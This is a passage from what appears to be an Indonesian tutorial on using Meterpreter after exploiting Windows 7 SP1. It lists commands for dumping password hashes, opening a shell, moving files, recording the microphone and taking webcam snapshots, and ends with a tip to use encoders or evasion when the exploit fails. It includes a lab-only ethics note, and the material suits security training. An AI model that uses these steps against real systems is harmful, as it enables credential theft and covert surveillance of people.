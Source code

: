    meterpreter > 
   ```

   Setelah berhasil mendapatkan sesi Meterpreter, kamu bisa melakukan beberapa hal diantaranya:

   1. Melihat informasi sistem target:

      ```
      sysinfo
      ```

   2. Menampilkan User ID (UID):

      ```
      getuid
      ```

   3. Mengekstrak hash password pengguna:

      ```
      hashdump
      ```                    

   4. Membuka command shell (cmd.exe) dari mesin target:

      ```
      shell
      ```                    

   5. Upload file ke mesin target:

      ```
      upload <PATH_FILE>
      ```           

   6. Download file dari mesin target:
 
      ```
      download <PATH_FILE>
      ```

   7. Rekam suara microphone dari mesin target:

      ```
      record_mic 
      ```     

   8. Ambil snapshot webcam dari mesin target:

      ```
      webcam_snap
      ```

      Dan masih banyak lagi.

## D. Tips Keamanan dan Etika
   - Gunakan hanya di lab atau uji coba yang kamu kelola sendiri.
   - Jangan gunakan di jaringan orang lain tanpa izin.
   - Windows 7 SP1 sudah tidak mendapatkan update, tapi banyak masih digunakan di sistem tua, gunakan untuk pelatihan, bukan penyerangan nyata.

## Tips Tambahan
   - Jika exploit gagal, coba gunakan `encoder` atau teknik `evasion`.

   ```